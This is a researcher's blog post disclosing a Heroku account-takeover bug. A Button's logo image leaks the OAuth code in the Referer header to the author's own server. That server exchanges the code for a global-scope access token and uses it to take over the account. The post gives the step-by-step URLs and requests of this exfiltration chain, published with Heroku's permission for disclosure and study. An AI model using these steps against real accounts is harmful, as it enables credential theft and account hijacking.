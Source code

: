 ```yaml
---
layout: post
title: "Taking over Heroku accounts"
---
```


_This is the first time I'm proud of a vulnerability I find._

Context
======
<a href="https://www.heroku.com/" target="_blank">Heroku</a> has a feature called <a href="https://elements.heroku.com/buttons" target="_blank">Buttons</a>, which "let you one-click provision, configure and deploy third party components, libraries and pattern apps".
You can notice the button on Github like here: <a href="https://github.com/ParsePlatform/parse-server-example" target="_blank">https://github.com/ParsePlatform/parse-server-example</a>. In this case, when you click on <img src="https://www.herokucdn.com/deploy/button.svg" height="20">, you are redirected to <a href="https://dashboard.heroku.com/new?button-url=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example" target="_blank">https://dashboard.heroku.com/new?button-url=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example</a>.

Anyone can create a Button: <a href="https://devcenter.heroku.com/articles/heroku-button" target="_blank">https://devcenter.heroku.com/articles/heroku-button</a>. 

I created a Button <a href="https://github.com/esevece/heroku_test" target="_blank">https://github.com/esevece/heroku_test</a> that only includes the required file `app.json`. Because `app.json` is the file from where Heroku gets the information about the Button.

I tried injecting HTML attributes and tags in `app.json` to achieve XSS, but the special characters are being escaped in the client side (if you can do it, <a href="https://bugcrowd.com/heroku" target="_blank">report it!</a>). However, I noticed that I can set the URL of the `"logo"` to any value. This URL is used as the `src` of an `<img>` created when _https://dashboard.heroku.com/new_ is loaded.

When using `<img>`s the `Referer` header is sent with the URL that requested the image as the value, which allows the "image" to capture this URL in the server-side. I was only able to capture the `Referer` from a different domain using Firefox, Safari, Internet Explorer and Edge, but not using Chrome.

_More ways to leak HTTP requests: <a href="https://github.com/cure53/HTTPLeaks" target="_blank">https://github.com/cure53/HTTPLeaks</a>._

Vulnerability
======
What I had until now was that when I load <a href="https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value" target="_blank">https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value</a>, `<img src="https://avatars0.githubusercontent.com/u/1294580?v=3&amp;s=200" class="">` is created and the browser makes a request to <a href="https://avatars0.githubusercontent.com/u/1294580?v=3&amp;s=200" target="_blank">https://avatars0.githubusercontent.com/u/1294580?v=3&s=200</a> with the header `Referer: https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value`. But I didn't have any critical parameter+value in the URL. 

I played with <a href="https://devcenter.heroku.com/articles/oauth" target="_blank">OAuth</a> and the applications owned by Heroku, with the intention to point the __redirect_uri__ to _https://dashboard.heroku.com/new?template=..._ -- where I could leak the `Referer` -- without success.

I don't remember when, but I noticed that a parameter __code__ is added to _https://dashboard.heroku.com/[path_requested]_ after authentication. The value of this parameter is sent to an endpoint which doesn't have <a href="https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)" target="_blank">CSRF</a> protection and returns a JSON response including an `"access_token"` with "global" scope. This "global" scope allows you to do anything with the account using the <a href="https://api.heroku.com" target="_blank">API</a>! However I couldn't change the password or the email of the account, until... [to be continued :smile:]

Attack
======
Only worked if the user was already authenticated.

1. Send user to

        https://longboard.heroku.com/login?state=https%3A%2F%2Fdashboard.heroku.com%2Fnew%3Ftemplate%3Dhttps%253A%252F%252Fgithub.com%252Fesevece%252Fheroku_test

    ![1]({{ site.github.url }}/screenshots/2016-06-01-1.png)

2. User is redirected to 

        https://id.heroku.com/oauth/autorize?client_id=....
    
    ![2]({{ site.github.url }}/screenshots/2016-06-01-2.png)
    ![3]({{ site.github.url }}/screenshots/2016-06-01-3.png)

3. User is redirected to

        https://longboard.heroku.com/auth/heroku/callback?code=....

    ![4]({{ site.github.url }}/screenshots/2016-06-01-4.png)
    ![5]({{ site.github.url }}/screenshots/2016-06-01-5.png)

4. And finally, the user is redirected to

        https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2Fesevece%2Fheroku_test&code=...

    ![6]({{ site.github.url }}/screenshots/2016-06-01-6.png)
    ![7]({{ site.github.url }}/screenshots/2016-06-01-7.png)

5. Once the page loads, a request is made to the Github API to get the file __app.json__

        https://api.github.com/repos/esevece/heroku_test/contents/app.json?ref=master

    ![8]({{ site.github.url }}/screenshots/2016-06-01-8.png)
    ![9]({{ site.github.url }}/screenshots/2016-06-01-9.png)

6. The `<img src="https://u00f1.xyz/heroku/poc.php">` is created and the "image" is loaded, sending the __code__ in the `Referer`
    ![10]({{ site.github.url }}/screenshots/2016-06-01-10.png)

7. My file <a href="https://github.com/esevece/esevece.github.io/blob/master/code/2016-06-01-poc.php" target="_blank">poc.php</a> captures the `Referer`, extracts the __code__ and makes a POST request to 

        https://longboard.heroku.com/login/token

    with the value of the parameter __password__ set to the value of __code__
    ![11]({{ site.github.url }}/screenshots/2016-06-01-11.png)

8. <a href="https://github.com/esevece/esevece.github.io/blob/master/code/2016-06-01-poc.php" target="_blank">poc.php</a> takes the `"access_token"` from the last response and makes a GET request to 

        https://api.heroku.com/account

    with the header `Authorization:` set to `Bearer [the_access_token]`
    ![12]({{ site.github.url }}/screenshots/2016-06-01-12.png)

9. <a href="https://github.com/esevece/esevece.github.io/blob/master/code/2016-06-01-poc.php" target="_blank">poc.php</a> takes the `"email"` from the last response and sends an email to the address
    ![13]({{ site.github.url }}/screenshots/2016-06-01-13.png)

Art Attack
======
After reporting the vulnerability to Heroku, <a href="https://twitter.com/ITSecurityguard" target="_blank">Patrik</a> from <a href="https://bugcrowd.com/" target="_blank">Bugcrowd</a> asked me to do whatever I could with his Heroku account. So, I started to look at what I could do and noticed that I couldn't change the email or password of his account. 

I kept looking for ways to really take over his account, until I decided to try to use his __access_token__ (that I had taken using the attack) as his password, and it worked! So, I changed his email.

Thanks
======
To <a href="https://www.heroku.com/" target="_blank">Heroku</a> for allow me to write about this vulnerability. 
To <a href="https://twitter.com/ITSecurityguard" target="_blank">Patrik</a> for push me to do something really bad with the bug.

_If something is not correct or well explained, let me know. Maybe is because of my ignorance, my poor English or because I missed something._